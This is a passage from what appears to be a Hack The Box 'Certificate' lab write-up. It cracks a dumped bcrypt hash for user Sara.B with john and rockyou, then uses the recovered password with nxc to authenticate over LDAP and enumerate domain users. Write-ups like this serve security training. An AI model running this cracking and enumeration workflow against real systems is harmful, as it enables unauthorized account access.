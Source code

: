 ```
12      wither  wither  wither  wither@test.com $2y$04$3pqv03LVuBUJJgvNqItEmOz/YZTWAqc1fLtJvKQR3ze9wZJjHNrl2    2025-07-21 07:10:23     student 1

```

Here we focus on Sara.B, because she exists in the user directory
```
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/30/2024   8:33 PM                Administrator                                                         
d-----       11/23/2024   6:59 PM                akeder.kh                                                             
d-----        11/4/2024  12:55 AM                Lion.SK                                                               
d-r---        11/3/2024   1:05 AM                Public                                                                
d-----        11/3/2024   7:26 PM                Ryan.K                                                                
d-----       11/26/2024   4:12 PM                Sara.B                                                                
d-----       12/29/2024   5:30 PM                xamppuser 
```

Then let's use john to crack the password of `Sara.B`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ john Sara.hash --wordlist=/usr/share/wordlists/rockyou.txt       
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Blink182         (?)     
1g 0:00:00:02 DONE (2025-07-21 13:51) 0.3636g/s 4446p/s 4446c/s 4446C/s auntie..8888888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
We successfully get the credit `Sara.B:Blink182`

# Crack kerberos from pcap
Firstly, I would like to enumerate all the domain users
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ nxc ldap 10.10.11.71 -u Sara.B -p 'Blink182'
LDAP        10.10.11.71     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
LDAP        10.10.11.71     389    DC01             [+] certificate.htb\Sara.B:Blink182

┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ nxc ldap 10.10.11.71 -u Sara.B -p 'Blink182' --users
LDAP        10.10.11.71     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
LDAP        10.10.11.71     389    DC01             [+] certificate.htb\Sara.B:Blink182 
LDAP        10.10.11.71     389    DC01             [*] Enumerated 18 domain users: certificate.htb
```